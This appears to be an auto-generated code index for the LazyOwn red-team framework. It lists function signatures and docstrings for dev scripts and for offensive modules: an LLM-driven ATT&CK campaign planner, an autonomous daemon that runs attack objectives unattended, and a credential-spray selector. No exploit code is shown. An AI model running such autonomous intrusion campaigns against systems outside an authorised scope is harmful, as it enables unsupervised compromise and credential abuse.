    commands_dir: Directory that holds the cmd2 CommandSet modules.
    probe_flag: Invalid flag the parser must reject without running the body.
    safe_argv: Argument vector installed before importing the shell so the
        framework does not parse the audit's own arguments.*

**Functions:**
- `argparser_commands` (line 40) `def argparser_commands(config)` - *Return the command names decorated with ``@with_argparser``.

Args:
    config: Active audit configuration.
Returns:
    Sorted command names without the ``do_`` prefix.*
- `audit` (line 65) `def audit(config)` - *Run the dispatch and parser audit.

Args:
    config: Optional audit configuration.
Returns:
    A list of ``command: error`` strings. Empty means every command passed.*
- `main` (line 105) `def main(argv)` - *Run the audit and return the process exit code.*

#### `core_smoke.py`
**Path:** `scripts/devtools/core_smoke.py`
**File Doc:** *Smoke check for the public surfaces documented in CORE.md.  I run this before a release and after a refactor that touches the consumer API. It imports every public name, calls a small safe subset, and exits non-zero on the first missing name. It never mutates the campaign state: the database runs in a temporary directory and the kill-chain read is read-only.*

**Classes:**
- `SmokeConfig` (line 20) `class SmokeConfig` - *Configuration for the smoke check.

Attributes:
    surfaces: Mapping of module name to the public attributes it must
        expose.*

**Functions:**
- `check_surfaces` (line 64) `def check_surfaces(config)` - *Return the dotted names that are missing from the imported modules.

Args:
    config: Active smoke configuration.
Returns:
    A list of missing ``module.attribute`` names. Empty means all present.*
- `check_calls` (line 81) `def check_calls()` - *Exercise a small safe subset of the public API.

Returns:
    A list of failures. Empty means every call succeeded.*
- `main` (line 118) `def main()` - *Run the smoke check and return the process exit code.*

#### `fix_migrated_classes.py`
**Path:** `scripts/fix_migrated_classes.py`

*No symbols extracted*

#### `generate_sbom.py`
**Path:** `scripts/generate_sbom.py`
**File Doc:** *Generate a minimal CycloneDX SBOM from the pinned requirements files.  Stdlib only, no network: parses ``requirements.txt`` (plus ``requirements-ml.txt`` with ``--with-ml``) and the project version from ``pyproject.toml``, and writes a CycloneDX 1.5 document.  Usage: python3 scripts/generate_sbom.py --out sbom.json python3 scripts/generate_sbom.py --with-ml --out sbom.json*

**Functions:**
- `parse_requirement` (line 25) `def parse_requirement(line)` - *Split one requirements line into (name, pinned_version|None).*
- `collect_components` (line 37) `def collect_components(with_ml)` - *Parse requirements files into CycloneDX components, deduplicated.*
- `project_version` (line 68) `def project_version()` - *Read the package version from pyproject.toml.*
- `build_sbom` (line 74) `def build_sbom(with_ml)` - *Assemble the CycloneDX document.*
- `main` (line 92) `def main()` - *CLI entry point.*

#### `journal.py`
**Path:** `scripts/journal.py`
**File Doc:** *Read-before-you-write journal over GitHub Discussions.  I keep a durable engineering journal in a GitHub Discussion category. Every unit of work appends one entry with the reasoning that a stateless agent cannot recover from the code alone. ``read_journal`` prints the recent entries, and the ``read-before-write`` workflow forces the next change to cite the journal before it lands.  The module never opens a shell. It drives ``gh api graphql`` with an argument list, and the runner is injectable so the tests never touch the network.*

**Classes:**
- `JournalError` (line 48) `class JournalError(RuntimeError)` - *Raised when the GitHub API call fails or the category is missing.*
- `JournalConfig` (line 53) `class JournalConfig` - *Configuration for the engineering journal.

Attributes:
    owner: GitHub account or organization that owns the repository.
    name: Repository name.
    category: Discussion category that holds the journal entries.
    limit: Default number of entries ``read`` returns.
    marker: Token the read-before-write workflow looks for in a PR body.*
- `Journal` (line 149) `class Journal` - *GitHub Discussions backed journal.

Attributes:
    config: Active journal configuration.
    runner: Callable that executes ``gh`` and returns its output. The
        default shells out through an argument list; tests inject a stub.*

**Functions:**
- `_run_git` (line 90) `def _run_git(args)` - *Run a git command and return its standard output.

Args:
    args: Arguments passed to git, without the leading ``git``.
Returns:
    The stripped standard output.
Raises:
    JournalError: When git exits non-zero or is unavailable.*
- `_git_remote_slug` (line 114) `def _git_remote_slug()` - *Return the ``owner/name`` slug of the ``origin`` remote.*
- `_default_runner` (line 124) `def _default_runner(args)` - *Run ``gh`` with an argument list and return its standard output.

Args:
    args: Arguments passed to ``gh``.
Returns:
    The standard output of the command.
Raises:
    JournalError: When ``gh`` is missing or exits non-zero.*
- `_build_parser` (line 245) `def _build_parser()` - *Build the command line parser.*
- `main` (line 264) `def main(argv)` - *Run the journal CLI and return the process exit code.

Args:
    argv: Optional argument vector. Defaults to ``sys.argv``.
Returns:
    0 on success, 1 on a journal error.*

**Methods:**
- `from_git_remote` (line 71) `def from_git_remote(cls, remote, category)` - *Build a config from the ``origin`` remote of the current checkout.

Args:
    remote: Optional repository slug ``owner/name``. When omitted, the
        slug is read from ``git config --get remote.origin.url``.
    category: Discussion category that holds the journal entries.
Returns:
    The resolved configuration.
Raises:
    JournalError: When the remote cannot be resolved to a slug.*
- `_graphql` (line 163) `def _graphql(self, query, variables)` - *Run a GraphQL query through ``gh`` and return the ``data`` payload.

Args:
    query: GraphQL document.
    variables: Variables passed to ``gh`` with ``-f``.
Returns:
    The ``data`` object of the response.
Raises:
    JournalError: When the response contains GraphQL errors.*
- `repo_id` (line 184) `def repo_id(self)` - *The GraphQL node id of the repository.*
- `category_id` (line 192) `def category_id(self)` - *The GraphQL node id of the journal category.*
- `post` (line 206) `def post(self, title, body)` - *Create a journal entry and return its number, url, and title.

Args:
    title: Entry title.
    body: Entry body in markdown.
Returns:
    A dict with ``number``, ``url`` and ``title``.
Raises:
    JournalError: When the mutation fails.*
- `entries` (line 223) `def entries(self, limit)` - *Return the most recently updated journal entries.

Args:
    limit: Maximum number of entries. Defaults to the config limit.
Returns:
    A list of dicts with ``number``, ``title``, ``body``, ``url`` and
    ``updatedAt``.
Raises:
    JournalError: When the query fails.*

#### `lazy_opencode_config.py`
**Path:** `scripts/lazy_opencode_config.py`
**File Doc:** *Patch operator agent configs to use the Lazy llama.cpp server.  Shared by ``scripts/lazy_llamacpp_setup.sh`` and the ``lazyown_opencode_config`` MCP tool so interactive and agentic flows apply byte-identical merges. Every write backs the file up first and never touches an existing setup without an explicit call.  Targets: - ``opencode``: ``~/.config/opencode/opencode.json`` gains the ``llamacpp`` provider plus the ``local-model`` entry. - ``hermes``: ``~/.hermes/config.yaml`` gains the ``llamacpp`` provider entry and points the default model at it.*

**Functions:**
- `_backup` (line 29) `def _backup(path)` - *Copy path to a timestamped backup; return the backup path.*
- `_opencode_path` (line 36) `def _opencode_path()` - *Return the opencode config path.*
- `_hermes_path` (line 41) `def _hermes_path()` - *Return the hermes config path.*
- `patch_opencode` (line 46) `def patch_opencode(set_default, host)` - *Merge the llamacpp provider into the opencode config.

Args:
    set_default: Also set the top-level model to llamacpp/local-model.
    host: Server base URL (``.../v1``).

Returns:
    Summary with changed flag, backup path and path. Never raises.*
- `patch_hermes` (line 93) `def patch_hermes(host)` - *Point the hermes config at the local llama.cpp server.

Surgical merge: only the llamacpp provider entry and the default
model pointer are ensured; every other key (and the operator's own
provider fields like ``name``/``transport``) is preserved. The file
is rewritten only when a required value actually differs.

Args:
    host: Server base URL (``.../v1``).

Returns:
    Summary with changed flag, backup path and path. Never raises.*
- `main` (line 150) `def main(argv)` - *CLI entry: ``--target opencode|hermes|both [--set-default]``.*

#### `migrate_commandsets.py`
**Path:** `scripts/migrate_commandsets.py`
**File Doc:** *Merge _migrated.py CommandSet methods into clean phase modules.  Reads each ``*_migrated.py`` file under ``cli/commands/``, identifies ``do_*`` methods not yet present in the corresponding clean ``.py`` file, and appends them. The clean file keeps its existing base class (LazyOwnCommandSet or PendingCommandSet) unchanged; only new methods are added.  Usage: python3 scripts/migrate_commandsets.py [--dry-run] [--phase scan]  Without ``--phase``, processes every pending phase.*

**Functions:**
- `_extract_method_source` (line 38) `def _extract_method_source(source, method_name)` - *Extract the source block for *method_name* from Python source string.*
- `_method_names_from_file` (line 52) `def _method_names_from_file(filepath)` - *Return the set of ``do_*`` method names defined in *filepath*.*
- `_find_class_end` (line 69) `def _find_class_end(source_lines)` - *Return the zero-based line index of the last line inside the module-level class.*
- `_append_methods` (line 83) `def _append_methods(clean_path, methods)` - *Append *methods* to the clean file. Returns (changed, count_added).*
- `merge_phase` (line 117) `def merge_phase(phase, dry_run)` - *Merge one phase's migrated methods into its clean file. Returns True if changed.*
- `main` (line 158) `def main()`

#### `migrate_lazyown.py`
**Path:** `scripts/migrate_lazyown.py`
**File Doc:** *Staged migration script: extract do_* methods from lazyown.py into cli/commands/.  Usage: python3 scripts/migrate_lazyown.py  What it does: 1. Parses lazyown.py with the ast module. 2. Groups every ``do_*`` method by its ``@cmd2.with_category(...)`` decorator. 3. For methods that reference module-level globals (api_key, rhost, …) it rewrites those references to ``self.params[...]``. 4. Writes a ``cli/commands/<phase>.py`` file per category that does NOT already exist. 5. Prints a diff-ready report so the operator can review before deleting the originals from ``lazyown.py``.  This script is **read-only** — it never edits ``lazyown.py``.*

**Functions:**
- `_category_from_decorator` (line 70) `def _category_from_decorator(decorator)` - *Return the category name from a ``with_category(...)`` decorator.*
- `_indent_level` (line 84) `def _indent_level(line)`
- `extract_method` (line 88) `def extract_method(source, node)` - *Return the raw source text of a function definition.*
- `rewrite_globals` (line 96) `def rewrite_globals(method_source)` - *Replace bare module-global names with ``self.params[...]``.

Uses a two-pass approach: first mask existing ``self.params["X"]``
calls with placeholders so the bare-variable regex does not double-
wrap string values, then restore the placeholders.*
- `build_migrated_module` (line 124) `def build_migrated_module(phase, category, methods)` - *Return the source text of a migrated ``CommandSet`` module.

Kept as a pure function so the emitted ``__all__`` and the class name stay
in lockstep and can be unit-tested. A prior inline version emitted the
literal ``__all__ = [f"{phase.title()}CommandSet"]`` -- an f-string written
verbatim into the output, where ``phase`` is undefined at module scope, so
every generated module raised ``NameError`` on import and silently aborted
:func:`cli.registry.iter_command_sets` discovery.

Args:
    phase: Phase slug (for example ``recon``) driving the class name.
    category: cmd2 ``@with_category`` value the methods belong to.
    methods: ``(name, source)`` pairs already rewritten for ``self.params``.

Returns:
    The complete module source, ending with a static ``__all__`` list that
    names the single generated ``*CommandSet`` class.*
- `main` (line 173) `def main()`

#### `patch_playbook_atomic_ids.py`
**Path:** `scripts/patch_playbook_atomic_ids.py`
**File Doc:** *Patch APT playbooks: replace placeholder atomic_ids with real technique_ids.  This ensures do_atomic_gen can find real Atomic Red Team tests via the MITRE technique ID fallback.*

*No symbols extracted*

#### `read_journal.py`
**Path:** `scripts/read_journal.py`
**File Doc:** *Print the recent engineering journal before a change is written.  This is the read half of the read-before-you-write loop. Run it at the start of a unit of work, then cite the entry number in the change. The ``read-before-write`` workflow rejects a pull request whose body does not cite a journal entry.*

**Functions:**
- `_build_parser` (line 19) `def _build_parser()` - *Build the command line parser.*
- `main` (line 29) `def main(argv)` - *Print the recent journal entries and return the process exit code.

Args:
    argv: Optional argument vector. Defaults to ``sys.argv``.
Returns:
    0 on success, 1 when the journal cannot be read.*

#### `sync_doc_stats.py`
**Path:** `scripts/sync_doc_stats.py`
**File Doc:** *Sync documentation numbers with the live codebase — single source of truth.  Counts are measured from the code itself and rewritten into the docs so the README, guides and agent context never contradict each other again:  - ``cli_commands``   — ``do_`` methods in lazyown.py + cli/commands/*.py (AST) - ``bridge_catalog`` — ``CatalogEntry(`` rows in modules/lazyown_bridge.py - ``mcp_tools``      — ``name="lazyown_`` registrations in skills/lazyown_mcp.py - ``aliases``        — keys in cli/aliases.yaml - ``addons``         — lazyaddons/*.yaml - ``plugins``        — plugins/*.lua - ``plugin_files``   — every file in plugins/ - ``tools``          — tools/*.tool - ``playbooks``      — playbooks/*.yaml - ``version``        — ``version =`` in pyproject.toml  Usage: python3 scripts/sync_doc_stats.py           apply the replacements in place python3 scripts/sync_doc_stats.py --check   exit 1 when any doc is stale (CI) python3 scripts/sync_doc_stats.py --print   show the measured numbers only*

**Functions:**
- `canonical_command_count` (line 87) `def canonical_command_count(root)` - *Read the canonical command count from the committed command index.

The command index (``cli/command_index.json``) is the single source of
truth produced by ``scripts/build_command_index.py``. Re-counting the
AST here would reintroduce a second counting method and cause the same
drift this module exists to eliminate.*
- `project_version` (line 100) `def project_version(root)` - *Read the package version from pyproject.toml, ``0.0.0`` when absent.*
- `measure_stats` (line 109) `def measure_stats(root)` - *Measure every published count from the live tree.

Args:
    root: Repository root. Injectable so tests can point at a fixture.*
- `render` (line 136) `def render(template, stats)` - *Format one replacement template with the measured stats.*
- `sync` (line 141) `def sync(check, stats, root)` - *Apply or verify every replacement; return the list of stale spots.

Args:
    check: When ``True`` verify without writing, returning stale spots.
    stats: Measured counts produced by :func:`measure_stats`.
    root: Repository root. Injectable so tests can point at a fixture.*
- `main` (line 165) `def main()` - *CLI entry point.*

#### `top_tier_check.py`
**Path:** `scripts/top_tier_check.py`
**File Doc:** *Top-tier hygiene audit for LazyOwn.  Fails (exit 1) on any credibility blocker: - version drift between README / pyproject.toml / version.json - doc claims (command / MCP / addon counts) out of sync with repo reality - secrets or session artefacts tracked by git - missing release-hygiene inputs (requirements, SBOM source)  Usage: python3 scripts/top_tier_check.py*

**Functions:**
- `fail` (line 23) `def fail(message)`
- `ok` (line 28) `def ok(message)`
- `count_cli_commands` (line 32) `def count_cli_commands()`
- `count_mcp_tools` (line 43) `def count_mcp_tools()`
- `count_addons` (line 48) `def count_addons()`
- `check_versions` (line 52) `def check_versions()`
- `check_doc_counts` (line 70) `def check_doc_counts(commands, mcp, addons)`
- `check_tracked_secrets` (line 81) `def check_tracked_secrets()`
- `check_release_inputs` (line 108) `def check_release_inputs()`
- `main` (line 116) `def main()`

#### `update_apt_atomic_ids.py`
**Path:** `scripts/update_apt_atomic_ids.py`
**File Doc:** *Update APT playbooks with real Atomic Red Team test IDs.  Scans the Atomic Red Team repository (already cloned by the user) and maps MITRE technique IDs to actual ``auto_generated_guid`` values, then patches ``playbooks/apt_*.yaml`` in place.  Usage::  python3 scripts/update_apt_atomic_ids.py [path/to/atomic-red-team/atomics]  If no path is given it defaults to ``external/.exploit/atomic-red-team/atomics``.*

**Functions:**
- `build_technique_index` (line 22) `def build_technique_index(atomics_path)` - *Map technique_id -> list of {atomic_id, name, description}.*
- `update_playbooks` (line 46) `def update_playbooks(index, playbook_dir)`

#### `setup.py`
**Path:** `setup.py`
**File Doc:** *Compatibility shim for legacy ``python setup.py`` invocations.  All project metadata and dependencies are declared in ``pyproject.toml`` under ``[project]`` and are the single source of truth. Modern setuptools reads them from there, so this file intentionally carries no duplicated package list; it exists only so tooling that still shells out to ``setup.py`` keeps working.*

*No symbols extracted*

#### `aci_planner.py`
**Path:** `skills/aci_planner.py`
**File Doc:** *Autonomous Campaign Intelligence (ACI) Planner =============================================== Decomposes a natural-language engagement goal into a MITRE ATT&CK-aligned tactical plan, injects each phase as objectives into the ObjectiveStore, monitors execution, and replans when too many objectives are blocked.  Architecture (SOLID) -------------------- - ACIGoal          dataclass — immutable goal descriptor - AttackPhase      dataclass — one tactical phase with ATT&CK metadata - ACIPlan          dataclass — full mutable plan persisted to sessions/ - ACIPlanner       — decomposes goals (LLM-backed with static fallback) - ACIEngine        — monitors plan state, decides when to replan - ACIReflector     — generates campaign_lessons from plan outcomes - mcp_aci_plan     — MCP bridge: plan a goal - mcp_aci_status   — MCP bridge: live plan status - mcp_aci_replan   — MCP bridge: force adaptive replan  Persistence ----------- sessions/aci_plan.json   — current active plan (one plan at a time) sessions/aci_history.jsonl — archived completed/abandoned plans sessions/campaign_lessons.jsonl — lessons appended by ACIReflector  Usage (CLI) ----------- python3 skills/aci_planner.py plan  "Compromise the DC at corp.internal" --target 10.10.11.5 python3 skills/aci_planner.py status*

**Classes:**
- `ACIGoal` (line 146) `class ACIGoal` - *Immutable descriptor for a natural-language engagement goal.*
- `AttackPhase` (line 157) `class AttackPhase` - *One tactical phase inside an ACIPlan.*
- `ACIPlan` (line 182) `class ACIPlan` - *Full tactical plan for one engagement goal.*
- `ACIPlanner` (line 449) `class ACIPlanner` - *Decomposes a high-level engagement goal into an ACIPlan.

Uses the Groq LLM when an api_key is available; falls back to
the static MITRE kill-chain template otherwise.

Args:
    api_key: Groq API key. If empty, static fallback is used.
    objectives_file: Path override for ObjectiveStore (tests).
    plan_file: Path override for ACI plan JSON (tests).*
- `ACIEngine` (line 593) `class ACIEngine` - *Monitors ACIPlan execution and triggers replanning when stalled.

Args:
    api_key: Groq API key for LLM-backed replan.
    plan_file: Path override (tests).
    objectives_file: Path override (tests).
    history_file: Path override (tests).
    replan_threshold: Blocked-objective count that triggers replan.*
- `ACIReflector` (line 787) `class ACIReflector` - *Generates campaign lessons from completed or replanned ACIPlan outcomes.

Lessons are appended to sessions/campaign_lessons.jsonl in the same
format used by EpisodeReflectionEngine in lazyown_campaign.py.

Args:
    lessons_file: Path override (tests).*

**Functions:**
- `_now_iso` (line 231) `def _now_iso()`
- `_save_plan` (line 235) `def _save_plan(plan, plan_file)` - *Atomically write plan to aci_plan.json.*
- `_load_plan` (line 245) `def _load_plan(plan_file)` - *Load active plan from aci_plan.json, return None if absent/corrupt.*
- `_archive_plan` (line 258) `def _archive_plan(plan, history_file)` - *Append plan to aci_history.jsonl.*
- `_load_payload` (line 267) `def _load_payload()` - *Read payload.json for api_key, target context.*
- `_load_world_model` (line 276) `def _load_world_model()` - *Read sessions/world_model.json for live engagement context.*
- `_count_objectives_by_status` (line 285) `def _count_objectives_by_status(obj_ids, objectives_file)` - *Count objectives in a list by their current status.*
- `_llm_decompose` (line 335) `def _llm_decompose(goal, api_key)` - *Call Groq to decompose goal into phases. Returns raw phase dicts or None.*
- `_llm_replan` (line 400) `def _llm_replan(plan, reason, api_key)` - *Call Groq to generate replacement objectives for remaining phases.*
- `mcp_aci_plan` (line 865) `def mcp_aci_plan(goal, target, scope, domain, os_hint, phase_filter)` - *Plan an engagement goal and return a JSON summary.

Args:
    goal: Natural-language engagement goal.
    target: Primary target IP or hostname.
    scope: List of CIDR ranges or IPs in scope.
    domain: Target domain (optional).
    os_hint: Target OS hint: 'linux', 'windows', or 'unknown'.
    phase_filter: Only include these phase slugs (e.g. ['recon','exploit']).

Returns:
    JSON string with plan summary.*
- `mcp_aci_status` (line 923) `def mcp_aci_status()` - *Return live status of the active ACI plan as JSON.

Returns:
    JSON string with plan status, phase breakdown, and replan recommendation.*
- `mcp_aci_replan` (line 940) `def mcp_aci_replan(reason)` - *Force adaptive replanning of the active ACI plan.

Args:
    reason: Why replanning is needed (e.g. 'Kerberoasting blocked').

Returns:
    JSON string with replan result summary.*
- `_build_parser` (line 978) `def _build_parser()`
- `main` (line 1003) `def main(argv)` - *Entry point for CLI usage.*

**Methods:**
- `to_dict` (line 171) `def to_dict(self)` - *Serialize to dict for JSON persistence.*
- `from_dict` (line 176) `def from_dict(cls, d)` - *Deserialize from dict.*
- `active_phase` (line 199) `def active_phase(self)` - *Return the first phase that is active or pending.*
- `completion_pct` (line 207) `def completion_pct(self)` - *Percentage of phases that are done or skipped.*
- `to_dict` (line 214) `def to_dict(self)` - *Serialize to dict for JSON persistence.*
- `from_dict` (line 221) `def from_dict(cls, d)` - *Deserialize from dict.*
- `__init__` (line 461) `def __init__(self, api_key, objectives_file, plan_file)`
- `plan` (line 471) `def plan(self, goal, phase_filter)` - *Decompose *goal* into an ACIPlan, inject objectives, persist.

Args:
    goal: ACIGoal descriptor.
    phase_filter: If provided, only include these phase slugs.

Returns:
    A new ACIPlan with status 'active'.*
- `_build_phases_from_llm` (line 509) `def _build_phases_from_llm(self, raw, goal, phase_filter)`
- `_build_phases_static` (line 534) `def _build_phases_static(self, goal, phase_filter)`
- `_inject_all_objectives` (line 562) `def _inject_all_objectives(self, plan)` - *Inject objectives for every phase into the ObjectiveStore.*
- `_write_objective` (line 571) `def _write_objective(self, text, phase, target)` - *Append one objective to objectives.jsonl and return its id.*
- `__init__` (line 604) `def __init__(self, api_key, plan_file, objectives_file, history_file, replan_threshold)`
- `status` (line 618) `def status(self)` - *Return a structured status dict for the active plan.

Returns:
    Dict with keys: plan_id, goal, target, status, phases, completion_pct,
    active_phase, blocked_count, replan_count, should_replan.*
- `should_replan` (line 658) `def should_replan(self, plan)` - *Return True when the plan is stalled and a replan is warranted.

Args:
    plan: Pre-loaded plan (avoids re-reading disk in tight loops).*
- `replan` (line 671) `def replan(self, reason)` - *Generate a new set of objectives for blocked/remaining phases.

Args:
    reason: Human-readable explanation of why we're replanning.

Returns:
    (updated_plan, message) — plan is None if no active plan exists.*
- `complete` (line 741) `def complete(self)` - *Mark the active plan as completed and archive it.*
- `_sync_phase_statuses` (line 754) `def _sync_phase_statuses(self, plan)` - *Update each phase status based on current objective completion.*
- `_count_blocked` (line 773) `def _count_blocked(self, plan)` - *Count total blocked objectives across all non-done phases.*
- `__init__` (line 797) `def __init__(self, lessons_file)`
- `reflect` (line 800) `def reflect(self, plan)` - *Analyse *plan* and generate lessons.

Args:
    plan: A completed or replanned ACIPlan.

Returns:
    List of lesson dicts appended to campaign_lessons.jsonl.*
- `_persist_lessons` (line 852) `def _persist_lessons(self, lessons)` - *Append lessons to campaign_lessons.jsonl.*

#### `autonomous_daemon.py`
**Path:** `skills/autonomous_daemon.py`
**File Doc:** *skills/autonomous_daemon.py — LazyOwn Autonomous Execution Daemon ================================================================== Bridges LazyOwn (Claude-assisted orchestrator) and a fully autonomous OpenClaw/OpenHands-style system.  The daemon runs as an independent process and does NOT need Claude Code to operate between objectives. Claude remains the Borg Queen for injecting high-level objectives, but the daemon executes them without intervention.  Architecture (4 concurrent asyncio roles) ------------------------------------------ Role 1 — ObjectiveLoop    : Watches objectives.jsonl. When a pending objective appears, takes it, plans, executes. Role 2 — ExecutionEngine  : Per-step execution loop (equivalent to auto_loop in MCP but without MCP). Uses the same command selection cascade: reactive -> parquet -> bridge -> LLM -> fallback Role 3 — WorldModelWatcher: Watches world_model.json. When the phase changes (recon->enum->exploit...) or new hosts/credentials appear, injects derived objectives and notifies hive drones. Role 4 — DroneCoordinator : Hive-mind bridge. When recon discovers a host, launches exploit/analyze drones in parallel. When a drone finishes, writes the result to the stream and updates the objective.  Event streams (push, no polling) ----------------------------------*

**Classes:**
- `ICommandRunner` (line 381) `class ICommandRunner(ABC)` - *Contract for executing a LazyOwn shell command.*
- `MCPCommandRunner` (line 434) `class MCPCommandRunner(ICommandRunner)` - *Delegates to lazyown_mcp._run_lazyown_command when available.
Single Responsibility: MCP import + delegation only.*
- `PTYCommandRunner` (line 453) `class PTYCommandRunner(ICommandRunner)` - *Full PTY-based command execution that mirrors _run_lazyown_command in the MCP
but has no dependency on lazyown_mcp.
Single Responsibility: PTY subprocess management only.*
- `CommandRunnerChain` (line 542) `class CommandRunnerChain(ICommandRunner)` - *Tries each runner in order and returns the first successful result.
Falls back to the next runner on any exception.

Chain of Responsibility pattern.
Open/Closed: add new runners without modifying this class.*
- `CommandDecision` (line 633) `class CommandDecision` - *Result of a command selection.*
- `ICommandSelector` (line 644) `class ICommandSelector(ABC)` - *Contract for command selection strategies.*
- `ReactiveSelector` (line 657) `class ReactiveSelector(ICommandSelector)` - *Returns a pending reactive engine decision if one is available.
Single Responsibility: reactive engine integration only.*
- `ParquetSelector` (line 703) `class ParquetSelector(ICommandSelector)` - *Queries Parquet DB for commands that succeeded in past sessions.
Single Responsibility: Parquet history lookup only.*
- `BridgeSelector` (line 749) `class BridgeSelector(ICommandSelector)` - *Queries the lazyown_bridge catalog for phase/service-appropriate commands.
Single Responsibility: bridge catalog lookup only.*
- `LLMSelector` (line 818) `class LLMSelector(ICommandSelector)` - *Queries Groq/Ollama for a command suggestion.
Only active when AUTO_USE_LLM=1.
Single Responsibility: LLM command recommendation only.*
- `SWANSelector` (line 916) `class SWANSelector(ICommandSelector)` - *SWAN (Scalable Weighted Adaptive Network) command selector.

Routes the command-recommendation query to the best MoE expert via
Q-learning-guided routing.  Only active when AUTO_USE_SWAN=1.

Single Responsibility : MoE/RL expert routing only — no direct execution.
Open/Closed           : Extend SwanOrchestrator subclasses; this selector
                        never changes to support new experts.
Dependency Inversion  : depends on ICommandSelector interface; imports
                        swan_agent lazily so the daemon starts even without
                        GROQ_API_KEY present.*
- `FallbackSelector` (line 986) `class FallbackSelector(ICommandSelector)` - *Static map fallback — always returns a CommandDecision, never None.
Selects OS-appropriate commands when the OS is known.
Single Responsibility: static fallback map only.*
- `MetricsAwareSelector` (line 1009) `class MetricsAwareSelector(ICommandSelector)` - *Decorator that demotes commands with a poor recent track record.

Wraps another :class:`ICommandSelector`. When the wrapped selector
proposes a command whose recent ``success_rate`` in
:class:`modules.metrics.MetricsRecorder` is below the configured
threshold and whose attempt count clears
:data:`METRICS_BIAS_MIN_ATTEMPTS`, the decision is dropped (returns
``None``) so the cascade falls through to the next selector. The
rejection itself is logged at debug level and broadcast as a
``METRICS_BIAS_SKIP`` event so operators can audit why the daemon
sidestepped an otherwise valid recommendation.

The fallback selector is intentionally left unwrapped at chain
composition time: when every other selector has been filtered, the
cascade must still converge on *something*.*
- `CredentialSpraySelector` (line 1240) `class CredentialSpraySelector(ICommandSelector)` - *When credentials exist in payload.json and open services are known,
generates credential-spray commands against those services.

Only activates in exploit/lateral/privesc/cred phases.
Tracks sprayed (command, target, user) tuples to avoid repeating.
Single Responsibility: credential reuse selection only.*
- `CascadeStrategy` (line 1296) `class CascadeStrategy` - *Chains selectors in order and returns the first non-None result.

Open/Closed: extend by adding selectors without modifying existing ones.*
- `StrategyEngine` (line 1327) `class StrategyEngine` - *Decides the next command for a (target, phase) pair.

Cascade identical to lazyown_mcp.py auto_loop:
  1. Reactive engine (if a high-priority decision is pending)
  2. Parquet (successful commands from previous sessions)
  3. Bridge catalog (commands for the phase/services)
  4. LLM (Groq/Ollama if AUTO_USE_LLM=1)
  5. Static fallback

Dependency Inversion: runner and selectors are injected.*
- `StepResult` (line 1400) `class StepResult` - *Result of a single execution step.*
- `IObjectiveHandler` (line 1412) `class IObjectiveHandler(ABC)` - *Contract for running an objective to completion.*
- `ExecutionEngine` (line 1426) `class ExecutionEngine(IObjectiveHandler)` - *Implements the per-objective execution loop.

Selects commands, runs them, parses output, updates world model,
emits events. Equivalent to the former _run_objective coroutine but
encapsulated as a class to satisfy Open/Closed (subclass to override
step logic without modifying this class).

Dependency Inversion: strategy (which wraps runner) is injected.*
- `DroneCoordinator` (line 2764) `class DroneCoordinator` - *Watches ExecutionEngine results and launches hive drones when events
worth parallel analysis are detected:
  - New host discovered  -> recon drone
  - Exploitable service  -> exploit drone
  - Hash/credential      -> cred drone*
- `EnginePhaseStep` (line 3050) `class EnginePhaseStep` - *One step in the EngageOrchestrator plan.

Attributes:
    phase: Canonical engagement phase tag (recon, enum, exploit, ...).
    primary: Preferred LazyOwn shell command for this step.
    label: Operator-facing short description used by the narrator.
    timeout_s: Per-step execution timeout. Defaults to STEP_TIMEOUT_S.*
- `EnginePhaseResult` (line 3067) `class EnginePhaseResult` - *Result of one EnginePhaseStep execution.*
- `IToolFallbackResolver` (line 3084) `class IToolFallbackResolver(ABC)` - *Contract for choosing a replacement tool after a failure.*
- `StaticFallbackResolver` (line 3097) `class StaticFallbackResolver(IToolFallbackResolver)` - *Resolver backed by the static :data:`_TOOL_FALLBACK_MAP`.

Used when the bridge catalog is unavailable (eg the lazyown_bridge
module failed to import). Picks the i-th alternative for the given
primary command, returning None once the list is exhausted.*
- `BridgeFallbackResolver` (line 3118) `class BridgeFallbackResolver(IToolFallbackResolver)` - *Resolver that asks the bridge catalog for phase-appropriate alternatives.

Falls back to the static map when the bridge cannot answer, so the
orchestrator always converges instead of stalling. The internal
candidate cache is keyed by (phase, primary) so repeated failures
don't re-query the catalog.*
- `_ShellDetector` (line 3166) `class _ShellDetector` - *Watches sessions/beacons.json for new beacons and emits SHELL_OBTAINED.

Idempotent: only narrates each client_id once. The actual notification
fabric (collab/telegram/discord) lives in engagement_hooks; this class
is a thin watcher used by the orchestrator between phases. The lazyc2
beacon hook publishes immediately on registration so this watcher only
matters when beacons appear before EngageOrchestrator is the active
process (e.g. during unattended sessions).*
- `EngageOrchestrator` (line 3257) `class EngageOrchestrator` - *Single-target kill-chain orchestrator backing the ``engage`` verb.

Public usage:
    orch = EngageOrchestrator(target="10.10.11.5")
    summary = orch.run()

The orchestrator never raises. Every error path is logged through the
narrator and reflected in the returned summary so the operator (or the
MCP caller) sees the full timeline.*

**Functions:**
- `_try_import` (line 126) `def _try_import(module, attr)`
- `_update_task_status` (line 185) `def _update_task_status(title, new_status)` - *Update the status of the first task whose title matches. Thread-safe.*
- `_inject_to_tasks_json` (line 206) `def _inject_to_tasks_json(title, description, operator, status)` - *Write directly to sessions/tasks.json using the C2 format (lazyc2.py).
Returns the assigned id. Thread-safe.*
- `_emit` (line 249) `def _emit(event_type, payload, severity)` - *Write an event to the JSONL stream. Thread-safe.*
- `_record_intent` (line 272) `def _record_intent(objective_id, step_n, command, state, reason)` - *Append one intent transition to the shared ledger (LAZY activity).

Both flows (engage plan and daemon objectives) write here, so
sessions/intents.jsonl is the single queryable trace. Reuses the
existing _ledger_write; never raises.*
- `_notify_finding` (line 287) `def _notify_finding(title, body, severity)` - *Filter, render and journal a finding notification.

Uses the shared notifier contract for severity gating and secret
redaction, then appends to sessions/notifications.jsonl next to the
existing event stream. Never raises.*
- `_objective_proven` (line 312) `def _objective_proven(objective_text, world_model, target, credential_found)` - *Return True when the objective text is satisfied by world state.

Maps goal keywords onto terminal conditions so the loop stops on
proof instead of running out the step budget. Never raises.*
- `compute_decision_seed` (line 353) `def compute_decision_seed(objective_id, step_n, source)` - *Return a deterministic identifier for a daemon decision.

The seed is the truncated SHA-256 of the tuple
``(objective_id, step_n, source)``. Replay tooling uses it to verify
that the recorded selector chain would still produce the recorded
command when fed the same objective and step counter. A mismatch on
replay is surfaced as a divergence, never as an abort.

Args:
    objective_id: Stable identifier of the parent objective.
    step_n: Zero-indexed step counter inside the objective.
    source: Name of the selector that produced the decision.

Returns:
    Hex digest truncated to :data:`DECISION_SEED_LENGTH` characters.*
- `_with_markers` (line 394) `def _with_markers(command, marker)` - *Wrap a command so its real output sits between marker lines.

